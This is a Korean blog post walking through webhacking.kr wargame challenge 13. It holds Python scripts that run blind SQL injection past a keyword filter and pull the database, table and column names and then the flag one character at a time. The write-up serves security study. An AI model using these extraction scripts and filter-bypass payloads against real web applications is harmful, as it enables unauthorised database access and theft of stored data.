 ```yaml
---
title: "Security: webhacking.kr 13-15"
last_modified_at: 2020-07-05T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


---
### 13 문제 풀이
---

13번 문제에 들어오니 다음과 같은 화면을 볼 수 있었다. 
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

이번 문제는 푸는데 꽤나 오래걸렸다. 창에 true를 입력하면 1이 출력되고 false를 입력하면 0이 출력되었다. 
그리고 sql Injection을 시도하기 위해 몇가지 명령문을 입력하니 특정단어들은 no hack이라는 문구가 출력되면서 필터링 되었다.
소스코드에서도 다른 힌트를 얻을 수 없었고 필터링을 피해 SQL Blind Injection을 시도하였다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-1-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-1-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-1-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```
#DB 이름 길이 구하기
dbName_length = 0
for i in range(1,20):
    data = "?no=(if(length(database())in({}),1,0))".format(i)
    print(data)
    html = requests.get(url+data).text
    if re.search("<td>1</td>",html):
        print("1")
        dbName_length = i
        break
    if re.search("<td>0</td>",html):
        print("0")
print("dbName_length: ",dbName_length)
# 결과는 7 
```
```
#DB 이름 구하기
dbName = ""
for i in range(1,8):
    for j in range(33,123):
        data = "?no=(if(ord(substr(database(),{},1))in({}),1,0))".format(i,j)
        print(data)
        print(dbName)
        html = requests.get(url+data).text
        if re.search("<td>1</td>",html):
            dbName+=chr(j)
            break
        else: print("None")
print(dbName)
#chall13
```
```
#Table명 길이
tName_length = 0
for i in range(1,20):
    data = "?no=(if((select(length(min(if((select(table_schema)in(database())),table_name,null))))from(information_schema.tables))in({}),1,0))".format(str(i))
    print(data)
    html = requests.get(url+data).text
    if re.search("<td>1</td>",html):
        print("1")
        tName_length = i
        break
    if re.search("<td>0</td>",html):
        print("0")
print("tName_length: ",tName_length)
#테이블명 길이는 13 자리
```

```
#Table명
tName = ""
for i in range(1,14):
    for j in range(33,128):
        data = "?no=(if((select(substr(min(if((select(table_schema)in(database())),table_name,null)),{},1))from(information_schema.tables))in({}),1,0))".format(str(i),str(bin(j)))
        print(data)
        print(tName)
        html = requests.get(url+data).text
        if re.search("<td>1</td>",html):
            tName+=chr(j)
            break
        if re.search("<td>0</td>",html): print("0")
print(tName)
##이진수로 찾아야 결과가 올바르게 나온다
##결과 "FfLlAaGg_AaBb733768" 알파벳은 두자씩 나왔지만 바꾸면 "flag_ab733768"
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>
```
#Column명 길이
cName_length = 0
for i in range(1,20):
    data = "?no=if((select(length(min(if((select(table_name)in(0b01100110011011000110000101100111010111110110000101100010001101110011001100110011001101110011011000111000)),column_name,null))))from(information_schema.columns))in("+bin(i)+"),1,0)"
    #0b01100110011011000110000101100111010111110110000101100010001101110011001100110011001101110011011000111000
    print(data)
    html = requests.get(url+data).text
    if re.search("<td>1</td>",html):
        print("1")
        cName_length = i
        break
    if re.search("<td>0</td>",html):
        print("0")
print("cName_length: ", cName_length)
#13자
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>
```
#Column명
cName = ""
for i in range(1,14):
    for j in range(33,128):
        data = "?no=if((select(substr(min(if((select(table_name)in(0b01100110011011000110000101100111010111110110000101100010001101110011001100110011001101110011011000111000)),column_name,null)),"+str(i)+",1))from(information_schema.columns))in("+str(bin(j))+"),1,0)"
        print(data)
        print(cName )
        html = requests.get(url+data).text
        if re.search("<td>1</td>",html):
            cName+=chr(j)
            break
        if re.search("<td>0</td>",html): print("0")
print(cName)
#FfLlAaGg_3Aa55Bb31Dd    #flag_3a55b31d
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>
```
#flag길이
fName_length = 0
for i in range(1,30):
    data = "?no=if((select(length(max(flag_3a55b31d)))from(chall13.flag_ab733768))in("+str(i)+"),1,0)"
    print(data)
    html = requests.get(url+data).text
    if re.search("<td>1</td>",html):
        print("1")
        fName_length = i
        break
    if re.search("<td>0</td>",html):
        print("0")
print("fName_length: ", fName_length)
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>
```
#flag 내용
fName = ""
for i in range(1,28):
    for j in range(33,128):
        data = "?no=if((select(substr(max(flag_3a55b31d),"+str(i)+",1))from(chall13.flag_ab733768))in("+str(bin(j))+"),1,0)"
        print(data)
        print(fName )
        html = requests.get(url+data).text
        if re.search("<td>1</td>",html):
            fName+=chr(j)
            break
        if re.search("<td>0</td>",html): print("0")
print(fName)

#FLAG{CHALLENGE13GUMMYCLEAR} FLAG{challenge13gummyclear}
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-6.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-7.JPG" alt="">
  <figcaption> </figcaption>
</figure>